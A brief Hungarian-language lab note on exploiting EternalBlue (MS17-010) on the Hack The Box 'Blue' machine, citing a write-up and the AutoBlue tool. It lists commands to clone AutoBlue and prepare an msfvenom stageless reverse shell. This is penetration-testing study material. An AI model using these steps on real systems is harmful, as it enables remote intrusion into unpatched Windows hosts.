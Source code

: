 # Eternal Blue
* Source: https://sparshjazz.medium.com/hack-the-box-blue-e9c0b0e4b33d
  * Azt irjak az elejen, hogy a method 2 es method 3 az amit ajanlanak, a (method 1-et nem)
## Ami mukodott
* AutoBlue
  * https://github.com/3ndG4me/AutoBlue-MS17-010
<pre>
$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010
$ cd AutoBlue-MS17-010/shell
$ ./shell_prep.sh
csinaljon msfvenommal reverse shellt, adjuk meg neki az ip-t es a portot
sima cmd shell legyen (ne meterpreter) es stageless legyen

</pre>
